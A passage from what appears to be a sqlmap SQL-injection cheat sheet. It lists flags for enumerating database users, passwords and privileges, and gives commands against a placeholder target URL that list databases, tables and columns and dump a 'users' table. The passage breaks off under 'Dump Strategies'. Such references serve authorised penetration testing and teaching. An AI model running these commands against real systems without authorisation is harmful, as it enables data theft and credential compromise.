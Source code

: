 </div>
:::
:::
:::

### Database Information Commands

  Command           Description                 Example
  ----------------- --------------------------- -----------------
  \--banner         Database version banner     \--banner
  \--current-user   Current database user       \--current-user
  \--current-db     Current database name       \--current-db
  \--hostname       Database server hostname    \--hostname
  \--is-dba         Check if user is DBA        \--is-dba
  \--users          Enumerate all users         \--users
  \--passwords      Enumerate user passwords    \--passwords
  \--privileges     Enumerate user privileges   \--privileges

### Database Structure Enumeration

::: code-block
    # List all databases
    python sqlmap.py -u "http://target.com/page?id=1" --dbs

    # List tables in specific database
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" --tables

    # List columns in specific table
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" --columns

    # Get table schema
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" --schema

    # Count table entries
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" --count
:::

### Data Extraction

::: {.attack-vector .risk-high}
#### Dump Strategies

::: code-block
    # Dump entire table
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" --dump
